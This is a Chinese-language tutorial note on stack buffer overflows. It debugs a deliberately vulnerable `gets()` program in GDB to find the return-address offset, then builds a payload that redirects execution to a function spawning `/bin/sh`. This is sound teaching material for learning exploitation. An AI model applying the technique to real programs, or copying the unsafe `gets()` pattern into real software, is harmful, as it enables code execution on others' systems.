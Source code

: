 > 此處需要用到 [PEDA](https://github.com/longld/peda) 這項 GDB 擴充

考慮以下程式 `bof.c`

```c
int evil() {
	system("/bin/sh");
}

int main() {
	char input[10];
	puts("Input:");
	gets(input);
	puts(input);
}
```


```shell
$ gcc -o bof -fno-stack-protector -g -no-pie bof.c
```
> 加上 `-fno-stack-protector` 以關閉 `CANNARY` 這個記憶體保護機制


# 執行結果觀測

```shell
$ gdb -q bof
(gdb) r
Input:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
```

```c
(gdb) x/16g input
0x7fffffffe470: 0x6161616161616161      0x6161616161616161
0x7fffffffe480: 0x6161616161616161      0x6161616161616161
0x7fffffffe490: 0x6161616161616161      0x6161616161616161
0x7fffffffe4a0: 0x6161616161616161      0x6161616161616161
0x7fffffffe4b0: 0x6161616161616161      0x0061616161616161
0x7fffffffe4c0: 0x00000000004004c0      0x00007fffffffe560
0x7fffffffe4d0: 0x0000000000000000      0x0000000000000000
0x7fffffffe4e0: 0x06fe5dce4008e824      0x06fe4d7426f8e824
```
-  `input` 這個區域變數是位於 `main` 函式的 stack 中。而位於 `stack` 最頂端的是函式的 `return address`
	- 可推測是輸入的 `a` 蓋到 `return address` 導致 `rip` 指到無法存取的地方



將中斷點下在 `main+53` 的位置，並觀察接下來 `rsp`，也就是位於 `return address`

```c
(gdb) pd main
Dump of assembler code for function main:
   0x00000000004005cc <+0>:     push   rbp
   0x00000000004005cd <+1>:     mov    rbp,rsp
   0x00000000004005d0 <+4>:     sub    rsp,0x10
   0x00000000004005d4 <+8>:     mov    edi,0x40069c
   0x00000000004005d9 <+13>:    call   0x400470 <puts@plt>
   0x00000000004005de <+18>:    lea    rax,[rbp-0x10]
   0x00000000004005e2 <+22>:    mov    rdi,rax
   0x00000000004005e5 <+25>:    mov    eax,0x0
   0x00000000004005ea <+30>:    call   0x4004a0 <gets@plt>
   0x00000000004005ef <+35>:    lea    rax,[rbp-0x10]
   0x00000000004005f3 <+39>:    mov    rdi,rax
   0x00000000004005f6 <+42>:    call   0x400470 <puts@plt>
   0x00000000004005fb <+47>:    mov    eax,0x0
   0x0000000000400600 <+52>:    leave
=> 0x0000000000400601 <+53>:    ret
End of assembler dump.

(gdb) b *0x0000000000400601
Breakpoint 1 at 0x400601: file bof.c, line 10.

(gdb) c
Continuing.

(gdb) p $rsp
$7 = (void *) 0x7fffffffe488

gdb-peda$ x/g 0x7fffffffe488
0x7fffffffe488: 0x6161616161616161
```
- `return address` 指向 `0x6161616161616161`

> vmmap需要裝plugin才能使用
```c
(gdb) vmmap
Start              End                Perm      Name
0x00400000         0x00401000         r-xp      /tmp/bof
0x00600000         0x00601000         r--p      /tmp/bof
0x00601000         0x00602000         rw-p      /tmp/bof
0x00602000         0x00623000         rw-p      [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p      /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p      mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fea000 0x00007ffff7fed000 rw-p      mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p      [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp      [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p      /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p      mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp      [vsyscall]
```
- 使用 `vmmap` 可知 `0x6161616161616161` 並不屬於該程式可以存取之範圍，所以才會拋出 `Segmentation fault` 這樣的訊息
![[Pasted image 20231010173940.png]]


# Return to `evil()`

- 由以上的結果可以得知，我們可以做到讓rip指向任何我們要抵達的位置
```c
(gdb) p evil
$15 = {int ()} 0x4005b6 <evil>
```
> x86-64是以`little endian` 將值存放於記憶體中，因此我們必須先將 `0x4005b6` 轉換為 little endian 的表示法：`\xb6\x05@\x00\x00\x00\x00\x00`

- 輸入a-z字串以便計算return address的位置
```c
(gdb) r
Input:
abcdefghijklmnopqsttuvwxyzabcdefghijklmnop
abcdefghijklmnopqsttuvwxyzabcdefghijklmnop

Program received signal SIGSEGV, Segmentation fault.

(gdb) p $rsp
$3 = (void *) 0x7fffffffe488
(gdb) x/s 0x7fffffffe488
0x7fffffffe488: "yzabcdefghijklmnop"
```
- `$rsp` 的第一個字為 `y`
	- `y` 之前有 24 個字母，也就是我們需要填入 24 個值才碰的到 return address

```shell
$ echo -ne "aaaaaaaaaaaaaaaaaaaaaaaa\xb6\x05@\x00\x00\x00\x00\x00" > payload
$ ./bof < payload

Input:

aaaaaaaaaaaaaaaaaaaaaaaa▒@

pwd
/tmp
```

![[Pasted image 20231010174522.png]]

# [[ROP攻擊]]

#C語言 #函式 